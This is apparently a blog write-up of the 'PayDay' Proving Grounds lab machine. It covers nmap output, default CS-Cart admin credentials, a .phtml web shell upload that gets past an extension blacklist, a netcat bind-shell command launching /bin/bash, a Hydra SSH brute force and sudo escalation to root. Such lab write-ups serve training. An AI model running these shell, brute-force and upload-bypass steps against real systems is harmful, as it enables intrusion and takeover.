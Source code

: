 ```yaml
---
layout: post
title: PG | PayDay
subtitle: Things normally go smooth on payday.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 15:27 UTC
Nmap scan report for 192.168.182.39
Host is up (0.017s latency).
Not shown: 65527 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 f3:6e:87:04:ea:2d:b3:60:ff:42:ad:26:67:17:94:d5 (DSA)
|_  2048 bb:03:ce:ed:13:f1:9a:9e:36:03:e2:af:ca:b2:35:04 (RSA)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: CS-Cart. Powerful PHP shopping cart software
110/tcp open  pop3        Dovecot pop3d
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2023-10-29T15:28:08+00:00; +7s from scanner time.
|_pop3-capabilities: STLS PIPELINING CAPA SASL UIDL RESP-CODES TOP
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2023-10-29T15:28:08+00:00; +7s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: IMAP4rev1 completed IDLE LOGIN-REFERRALS LITERAL+ THREAD=REFERENCES SASL-IR OK Capability LOGINDISABLEDA0001 STARTTLS NAMESPACE UNSELECT CHILDREN SORT MULTIAPPEND
V      Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_ssl-date: 2023-10-29T15:28:08+00:00; +8s from scanner time.
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_imap-capabilities: IMAP4rev1 IDLE LOGIN-REFERRALS LITERAL+ THREAD=REFERENCES SASL-IR OK completed Capability AUTH=PLAINA0001 NAMESPACE UNSELECT CHILDREN SORT MULTIAPPEND
995/tcp open  ssl/pop3    Dovecot pop3d
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_pop3-capabilities: SASL(PLAIN) PIPELINING CAPA USER UIDL RESP-CODES TOP
| ssl-cert: Subject: commonName=ubuntu01/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2008-04-25T02:02:48
|_Not valid after:  2008-05-25T02:02:48
|_ssl-date: 2023-10-29T15:28:08+00:00; +8s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: payday
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: payday
|_  System time: 2023-10-29T11:28:05-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 40m07s, deviation: 1h38m00s, median: 6s
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.40 seconds
~~~

## HTTP (TCP/80)

The web server on port 80 is hosting a CS-Cart webpage

![PayDay](/assets/img/PayDayPG(1).png)

I started enumeration by running a gobuster sub-directory scan and found a /admin.php page

![PayDay](/assets/img/PayDayPG(2).png)

I tried using the default credentials of admin:admin and it worked!

![PayDay](/assets/img/PayDayPG(3).png)

After navigating the admin panel I found a upload file option that saves the file locally on the target host and is displayed on the website via the 'Current path: /skins/'

At first I attempted to upload a PHP web shell file but the .php extension was blacklisted, I changed the shell extension to .phtml which is compatible with running php code

![PayDay](/assets/img/PayDayPG(7).png)

![PayDay](/assets/img/PayDayPG(4).png)

I then ran an 'id' command at 'http://192.168.182.39/skins/shell.phtml' to test the web shell and it succeeded!

![PayDay](/assets/img/PayDayPG(5).png)

To get a stable shell I created a netcat listener on the target via the web shell

~~~shell
http://192.168.182.39/skins/shell.phtml?cmd=nc%20-nvlp%204444%20-e%20/bin/bash
~~~

Then connected to the listener via my attack host

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ nc -nv 192.168.182.39 4444
(UNKNOWN) [192.168.182.39] 4444 (?) open
whoami
www-data
python -c 'import pty; pty.spawn("/bin/sh")'
$ 
~~~

I ran a bruteforce via SSH on the user account 'patrick' using Hydra and found valid credentials of patrick:patrick

The server uses legacy SSH key algorithms ssh-rsa and ssh-dss so you may need to enable [SSH Wide Compatibility Mode](https://www.youtube.com/watch?v=fKVLVNaVXF0) to run the Hydra brute force

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ hydra -f -l patrick -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://192.168.182.39 -t 10
~~~

![PayDay](/assets/img/PayDayPG(6).png)

~~~shell
┌──(kali㉿kali)-[~/Desktop/PayDay]
└─$ ssh patrick@192.168.182.39                                                                                                                         
The authenticity of host '192.168.182.39 (192.168.182.39)' can't be established.
DSA key fingerprint is SHA256:UtI16p2JU9a/SuF1RZ3eUAYqCLBtgOewIPtIdm7kNNA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.39' (DSA) to the list of known hosts.
patrick@192.168.182.39's password: 
Linux payday 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
patrick@payday:~$ 

I checked what privileges the patrick user has and it had full sudo rights!

patrick@payday:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
~~~

I finished by upgrading the shell to root

~~~shell
patrick@payday:~$ sudo su
root@payday:/home/patrick# whoami
root
~~~